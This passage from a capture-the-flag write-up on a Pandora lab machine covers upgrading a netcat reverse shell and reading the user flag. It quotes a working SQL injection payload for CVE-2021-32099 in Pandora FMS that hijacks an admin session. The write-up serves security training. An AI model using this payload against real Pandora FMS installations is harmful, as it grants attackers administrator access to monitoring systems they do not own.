 I’ll upgrade my shell:

```

matt@pandora:/var/www/pandora/pandora_console$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
matt@pandora:/var/www/pandora/pandora_console$ ^Z
[1]+  Stopped                 nc -nvlp 443
oxdf@hacky$ stty raw -echo; fg
nc -nvlp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
matt@pandora:/var/www/pandora/pandora_console$ 

```

And grab `user.txt`:

```

matt@pandora:/home/matt$ cat user.txt
4379b69e************************

```

### RCE #2: Admin Upload

#### Get Admin Cookie

[This POC](https://sploitus.com/exploit?id=100B9151-5B50-532E-BF69-74864F32DB02) for CVE-2021-32099 (the SQL injection used above) shows this payload:

```

http://localhost:8000/pandora_console/include/chart_generator.php?session_id=PayloadHere%27%20union%20select%20%271%27,%272%27,%27id_usuario|s:5:%22admin%22;%27%20--%20a => Pandora FMS Graph ( - )

```

URL decoded that looks like:

```

PayloadHere' union select '1','2','id_usuario|s:5:"admin";' -- a

```

Effectively, this is querying the sessions table to find out what user I am, and injecting one of data that makes the application think I’m the admin user. If I do that, it actually sets a cookie that is the `PHPSESSID` for the admin user. I can simply visit that url, and then reload the main page, and it says I’m admin:

![image-20220519135812617](https://0xdfimages.gitlab.io/img/image-20220519135812617.png)
